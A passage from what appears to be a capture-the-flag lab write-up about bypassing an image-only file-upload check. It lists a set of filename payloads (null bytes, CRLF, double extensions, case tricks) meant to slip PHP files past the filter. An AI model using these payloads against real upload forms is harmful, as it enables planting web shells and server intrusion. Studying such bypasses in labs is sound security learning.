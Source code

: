 This endpoint provides a file upload feature. After some testing, we notice the server checks for the files extension to be an image file extension (`.jpg`, `.png`,...). We created a script to check if we can bypass this check.
First, we started a python webserver to catch the incoming requests to see which ones succeed. Then we start our script that loops through different payloads, these files do not exist on the webserver but this script is merely to detect which payload provide the right output.

![cloud](/assets/img/thm-opacity-cloud.png)

#### File extension bypass script
##### ext_bypass.txt
```
cat.jpg
file1.png.php
file2.png.Php5
file3.php%20
file4.php%0a
file5.php%00
file6.php%00.jpg
file7.php#.jpg
file8.php%0d%0a
file9.php/
file10.php.\
file11.
file12.php....
file13.pHp5....
file14.png.php
file15.png.pHp5
file16.php%00.png
file17.php\x00.png
file18.php%0a.png
file19.php%0d%0a.png
file20.phpJunk123png
file21.png.jpg.php
file22.php%00.png%00.jpg
ex: file23.php.png
```
